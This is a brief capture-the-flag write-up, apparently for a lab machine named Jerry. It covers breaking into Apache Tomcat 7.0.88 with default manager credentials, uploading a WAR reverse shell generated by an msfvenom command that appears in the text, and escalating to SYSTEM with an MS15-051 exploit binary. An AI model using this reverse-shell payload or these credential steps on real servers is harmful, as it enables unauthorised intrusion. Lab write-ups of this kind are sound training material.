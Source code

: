 # Jerry

![jerry](jerry.jpg)

# Writeup 

I may have just yolod this without taking notes. Easy box, but here's the highlights. 

tomcat 7.0.88

admin:admin password works but doesn't have access

nikto shows tomcat:s3cret and that gets me onto /manager/

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<> LPORT=<> -f war > shell.war
```

upload a war and then navigate to that dir to get a shell. 

Get a better command shell after running windows exploit suggester. 

Run this and get a system shell. 

taihou32.exe #ms15-051

